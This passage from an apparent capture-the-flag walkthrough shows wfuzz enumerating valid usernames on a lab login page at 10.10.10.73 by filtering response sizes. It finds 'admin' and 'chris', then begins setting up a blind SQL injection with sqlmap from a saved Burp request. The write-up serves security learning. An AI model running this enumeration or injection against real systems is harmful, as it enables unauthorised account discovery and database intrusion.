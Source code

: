 ```

000001:  C=200    102 L      657 W         7074 Ch        "aaliyah"
000002:  C=200    102 L      657 W         7074 Ch        "aaren"
000004:  C=200    102 L      657 W         7074 Ch        "aaron"
000041:  C=200    102 L      657 W         7074 Ch        "achal"
000042:  C=200    102 L      657 W         7074 Ch        "achamma"
^C
Finishing pending requests...

```

Now that we see that a non-existent username returns a response that’s 7074 characters, let’s exclude that result, using the `--hh 7074`:

```

root@kali# wfuzz -c -w /opt/SecLists/Usernames/Names/names.txt -d "username=FUZZ&password=abcd" -u http://10.10.10.73/login.php --hh 7074
********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.73/login.php
Total requests: 10163

==================================================================
ID      Response   Lines      Word         Chars          Payload
==================================================================

000086:  C=200    102 L      659 W         7091 Ch        "admin"
001883:  C=200    102 L      659 W         7091 Ch        "chris"

Total time: 328.8529
Processed Requests: 10163
Filtered Requests: 10161
Requests/sec.: 30.90438

```

So we confirmed two accounts, admin and chris.

#### SQL Injection - sqlmap

##### basic sqlmap

Getting `sqlmap` to find this took a bit of work. When I was first doing this box, I got it to work somehow using the `--tamper-data` but I both couldn’t repeat that, and don’t really understand why it worked. What we can do is use the fact that we have a field in username that changes based on if the username is good to do blind injection. That is done with the `--string` option.

First, grab a request from burp, which we’ll save using the `copy to file` option:

```

root@kali# cat login-chris.request
POST /login.php HTTP/1.1
Host: 10.10.10.73
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.73/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00
Connection: close
```